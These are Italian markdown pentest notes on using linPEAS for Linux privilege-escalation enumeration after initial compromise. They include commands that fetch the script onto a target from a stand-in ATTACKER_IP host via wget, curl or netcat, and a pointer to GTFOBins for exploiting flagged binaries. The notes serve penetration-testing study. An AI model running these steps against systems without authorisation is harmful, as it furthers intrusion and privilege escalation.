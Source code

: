 # 🪙 linPEAS – Linux Privilege Escalation

Appunti e snippet per usare **linPEAS** nella fase di **post-exploitation** su sistemi Linux.

## 📌 Obiettivi

* Automatizzare la ricerca di possibili vettori di **Privilege Escalation**.
* Identificare configurazioni deboli, binari SUID, cronjob, capabilities e kernel exploit suggeriti.
* Ottenere una panoramica rapida di ciò che è sfruttabile.

---

## 📥 Ottenere linPEAS

Repo ufficiale: [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

Scaricare la release:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

---

## 🔄 Trasferire su macchina target

### Con **wget/curl** (se target ha internet)

```bash
wget http://ATTACKER_IP/linpeas.sh -O /tmp/linpeas.sh
# oppure
curl http://ATTACKER_IP/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

➡️ Prima devi hostare il file in locale:

```bash
python3 -m http.server 80
```

---

### Con **scp** (se hai SSH)

```bash
scp linpeas.sh user@target:/tmp/linpeas.sh
```

---

### Con **netcat**

**Attacker (send):**

```bash
nc -lvnp 1234 < linpeas.sh
```

**Target (receive):**

```bash
nc ATTACKER_IP 1234 > /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

---

## ▶️ Esecuzione

```bash
./linpeas.sh
```

Con output colorato (più leggibile):

```bash
./linpeas.sh -a
```

Se vuoi loggarlo:

```bash
./linpeas.sh | tee linpeas_report.txt
```

---

## 📚 Risorse utili

* [linPEAS GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [HackTricks PEAS Guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/peas)
* [GTFOBins](https://gtfobins.github.io/) (per sfruttare i binari segnalati)

---

